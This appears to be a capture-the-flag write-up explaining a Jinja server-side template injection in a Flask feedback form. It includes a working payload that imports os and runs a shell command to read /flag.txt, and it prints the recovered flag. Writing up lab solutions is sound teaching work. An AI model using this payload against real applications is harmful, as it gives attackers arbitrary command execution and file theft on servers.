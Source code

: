 ```yaml
---
title: "A personalised thank you"
description: "RISC intro2web challenge 2"
pubDate: "Aug 26 2025"
heroImage: "/hero/risc-index_Raaquilla.webp"
tags: ["cyber", "python", "flask", "ctf", "exploit"]
---
```


## Challenge description

Thank you for your feedback { name }

Flag is in /flag.txt

---

## Approach

Lets have a look at the feedback page.

We can input a name and a message and upon submitting are presented with "Thank you for your feedback " and our name.

We know that the site is built with Python Flask, which uses Jinja for templating allowing loading html files and substituting variables and logic before serving to the client.

E.g.

```html
<html>
	<body>
		<h1>{{ title }}</h1>
	</body>
</html>
```

So if we pass a Jinja template into our name, and the name is being passed into a template string, Jinja will evaluate the input.

We can test this by using `{{}}` as our name and we see:

> Thank you for your feedback

Our input was evaluated by Jinja into nothing.

We can abuse the arbitrary Jinja execution to get arbitrary bash execution and cat the flag located in `/flag.txt`

### Python implementation

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read()}}
```

> Thank you for your feedback RISC{y0ur_f33db4ck_1snt_p4rt1cul4rly_s4f3!\_e85dae1c0b362b4c7019905ca3a56ecf}

So our flag is:

```
RISC{y0ur_f33db4ck_1snt_p4rt1cul4rly_s4f3!_e85dae1c0b362b4c7019905ca3a56ecf}
```
